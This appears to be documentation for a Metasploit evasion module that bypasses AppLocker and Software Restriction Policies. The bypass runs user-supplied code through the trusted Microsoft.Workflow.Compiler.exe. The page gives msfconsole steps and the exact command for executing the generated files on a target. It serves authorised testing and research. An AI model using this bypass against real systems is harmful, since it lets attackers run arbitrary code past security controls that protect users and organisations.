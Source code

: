 ## Introduction

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary Microsoft.Workflow.Compiler.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block Microsoft.Workflow.Compiler.exe or the "Microsoft.Net" directory.

## Options

- **XOML_FILE** - Filename for the evasive file (default: workflow.xoml).
- **XML_FILE** - Filename for the .snk file (default: workflow.xml).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_workflow_compiler`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] workflow.xoml stored at /root/.msf4/local/workflow.xoml`
  7. `[+] workflow.xml stored at /root/.msf4/local/workflow.xml`
  8. `[*] Copy workflow.xoml and workflow.xml to the target`
  9. `[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\Microsoft.Workflow.Compiler.exe workflow.xml GQi` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb
